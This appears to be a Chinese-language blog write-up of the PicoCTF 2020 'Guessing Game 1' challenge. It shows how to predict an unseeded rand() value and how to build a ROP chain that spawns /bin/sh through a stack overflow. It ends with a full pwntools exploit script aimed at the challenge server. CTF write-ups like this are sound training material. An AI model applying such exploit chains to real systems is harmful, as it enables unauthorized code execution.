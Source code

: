 ```yaml
---
title: "PicoCTF2020 Guessing Game 1"
date: 2020-10-14
draft: false
tags: ["PicoCTF", "CTF", "Pwn"]
categories: ["PicoCTF"]
---
```

<!--more-->

這題目花了我好幾個小時

https://play.picoctf.org/events/3/challenges/challenge/90

## 開始

我們先看看 Makefile

```make
all:
  gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
clean:
  rm vuln
```

這個程式可能有 Buffer Overflow，它用 static link，不能改 plt, got

看看 `do_stuff` 和 `get_random`

```c
long get_random() {
  return rand() % BUFSIZE;
}
int do_stuff() {
  long ans = get_random();
  ans = increment(ans);
  int res = 0;

  printf("What number would you like to guess?\n");
  char guess[BUFSIZE];
  fgets(guess, BUFSIZE, stdin);

  long g = atol(guess);
  if (!g) {
    printf("That's not a valid number!\n");
  } else {
    if (g == ans) {
      printf("Congrats! You win! Your prize is this print statement!\n\n");
      res = 1;
    } else {
      printf("Nope!\n\n");
    }
  }
  return res;
}

```

輸入用 `fgets`，沒有 Buffer Overflow

但 `rand` 沒有初始化，它的值一直是固定的

用 gdb 可以很快找到 `ans` 的值

![](/img/picoCTF2020-Guessing-Game-1/random_num.png)
`ans` 固定為 `84`

> 補注: 截圖沒有截到 `rax`，但是 `rax` 應是 84

可以進到 `win` 裡面了
![](/img/picoCTF2020-Guessing-Game-1/access_first_level.png)

## 決定攻擊手法

`win` 裡面有 Buffer Overflow，明明 `BUFSIZE` 只有 100，卻可以填 360 個字元

```c++
// BUFSIZE = 100
void win() {
  char winner[BUFSIZE];
  printf("New winner!\nName? ");
  fgets(winner, 360, stdin);
  printf("Congrats %s\n\n", winner);
}
```

找到 padding
![](/img/picoCTF2020-Guessing-Game-1/offset.png)

```python
payload = 'a'*120
```

問題來了，我們可以用什麼方法破解它?

1. Shellcode<br>
   不行，有開 NX
2. return to libc<br>
   它用 static link
3. Format string<br>
   printf 看起來不能利用
4. ROP<br>
   好像可以

**決定用 ROP**

## 編寫 ROP chain

使用 ROPgadget
找不到 `pop eax`，只有 `pop rax`
![](/img/picoCTF2020-Guessing-Game-1/cannot_find_pop_eax.png)

把 `/bin/sh` 放到 `.bss` 段

```python
payload += flat([pop_rax, buf, pop_rdx, '/bin', mov_drax_edx, \
                 pop_rax, buf+4, pop_rdx, '/sh\x00', mov_drax_edx])
```

system call execve 參數

- eax: 11
- ebx: 字串 `/bin/sh` 的位置
- ecx: 0
- edx: 0

```python
payload += flat([pop_rbx, buf, pop_rax, 11, pop_rdx, 0, int_0x80])
```

> rcx 找不到適合的 gadget，只好先不理它，反正它常常是 0

> 想知道更多 system call 用法，可以到這個網站
> https://syscalls.w3challs.com/?arch=x86

## 暫存器尺寸

原本以為沒事了，沒想到...
![](/img/picoCTF2020-Guessing-Game-1/reg_size_problem.png)
輸入的資料會黏在一起

我們輸入的是 32-bit，但卻用 64-bit 的暫存器，所以必須在資料後面加上 4 個`\x00`

如果你用 flat，可以在每個指令後面都加入一個 0

```python
flat([pop_rbx, 0, buf, 0, pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
```

## 成果

```python
from pwn import *

context.arch = 'i386'
#r = process('./vuln')
r = remote('jupiter.challenges.picoctf.org', 39936)

s = r.recvuntil('?\n')

r.sendline('84')

buf = 0x6bc3a0
pop_rax = 0x4163f4
pop_rbx = 0x400ed8
pop_rdx = 0x44a6b5
mov_drax_edx = 0x48dd72
mov_rax_rdx = 0x41b570
int_0x80 = 0x468fea

payload = 'a'*120
payload += flat([pop_rax, 0, buf, 0, pop_rdx, 0, '/bin',0 , mov_drax_edx, 0,
                 pop_rax, 0, buf+4, 0, pop_rdx, 0, '/sh\x00',0 , mov_drax_edx, 0])
payload += flat([pop_rbx, 0, buf, 0, \
                 pop_rax, 0, 11, 0, pop_rdx, 0, 0, 0, int_0x80, 0])
# 有夠醜

raw_input()

r.recvuntil('? ')
r.sendline(payload)

r.interactive()
```

![](/img/picoCTF2020-Guessing-Game-1/final.png)

